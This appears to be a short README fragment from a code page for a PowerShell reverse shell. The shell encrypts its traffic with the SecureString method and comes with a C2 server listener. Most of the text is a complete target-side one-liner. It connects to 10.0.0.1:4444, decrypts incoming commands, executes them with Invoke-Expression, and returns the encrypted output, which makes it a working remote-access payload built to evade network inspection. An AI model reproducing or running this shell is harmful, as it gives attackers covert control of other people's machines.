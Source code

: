 
Reverse Shell over TCP (+ AES Encryption) using PowerShell SecureString Method:
Client & C2 Server Listener.

- Attacker:

PS> .\Server.ps1

- Target:

PS> $Key=(226,183,97,6,17,176,21,164,211,64,197,229,220,92,207,182,192,132,103,202,131,244,142,31,82,141,162,94,187,176,23,192);$Client=New-Object System.Net.Sockets.TCPClient('10.0.0.1',4444);$Stream=$Client.GetStream();[byte[]]$Bytes=0..65535|%{0};while(($Read=$Stream.Read($Bytes, 0, $Bytes.Length)) -ne 0){;$Command=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($Bytes,0, $Read);$DeCode=$Command | ConvertTo-SecureString -Key $Key;$OutPut=(IEX([System.Runtime.InteropServices.Marshal]::PtrToStringAuto([System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($DeCode))) 2>&1 | Out-String);$EnCode=ConvertTo-SecureString $OutPut -AsPlainText -Force | ConvertFrom-SecureString -Key $Key;$SendByte=([text.encoding]::ASCII).GetBytes($EnCode);$Stream.Write($SendByte,0,$SendByte.Length);$Stream.Flush()};$Client.Close();Exit
